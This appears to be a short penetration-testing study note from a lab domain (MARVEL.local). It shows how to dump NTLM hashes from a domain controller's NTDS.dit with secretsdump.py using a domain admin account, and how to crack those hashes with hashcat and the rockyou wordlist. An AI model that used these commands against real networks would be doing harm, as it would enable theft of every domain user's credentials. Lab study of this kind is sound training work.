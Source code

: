 ![[Pasted image 20240323122153.png]]

# Exploitation

Using *secretsdump.py* we can dump the *NTDS.dit* database with our DA account:
```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@10.0.0.18 -just-dc-ntlm
```
Args:
`-just-dc-ntlm`: Extract only NTDS.DIT data (NTLM hashes only)

Output:
![[Pasted image 20240323122812.png]]

Crack the hashes with *hashcat*:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

>[!Note]
>Don't try to crack PC passwords, just crack user password!


